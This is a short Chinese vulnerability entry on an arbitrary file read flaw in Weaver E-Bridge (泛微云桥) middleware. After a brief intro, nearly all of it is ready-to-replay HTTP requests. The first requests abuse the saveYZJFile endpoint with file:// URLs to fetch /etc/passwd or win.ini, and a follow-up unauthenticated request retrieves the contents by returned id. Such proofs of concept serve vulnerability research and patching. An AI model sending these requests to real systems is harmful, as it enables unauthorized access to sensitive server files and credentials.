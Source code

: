 泛微 E-Bridge 云桥任意文件读取
==============================

一、漏洞简介
------------

泛微云桥（E-Bridge）是上海泛微公司在"互联网+"的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

二、漏洞影响
------------

2018-2019 多个版本。

三、复现过程
------------

### 服务器Linux：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt HTTP/1.1
    Host: www.0-sec.org:8088
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: ecology_JSessionId=abc3I_8E3ZP75a_tnGnrx; testBanCookie=test; JSESSIONID=3kqlxwz8wo04x6cs4dlaovn; EBRIDGE_JSESSIONID=3DD7A4B45D85CAE1AC75F8FF6DEB7556
    Connection: close

![1.png](resource/泛微E-Bridge云桥任意文件读取/media/rId25.png)

### windows服务器：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C://windows/win.ini&fileExt=txt HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=182ED2E3025C11EA9ADDC07761F56DBA
    Connection: close

![2.png](resource/泛微E-Bridge云桥任意文件读取/media/rId27.png)

### 读取文件

    GET /file/fileNoLogin/35acd348e86549ffb33d7f531350391e HTTP/1.1
    Host: www.0-sec.org:8088
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=BABB53753778ED19791B6F606E5B0D77
    Connection: close

**35acd348e86549ffb33d7f531350391e为上个包返回的id**

![3.png](resource/泛微E-Bridge云桥任意文件读取/media/rId29.png)

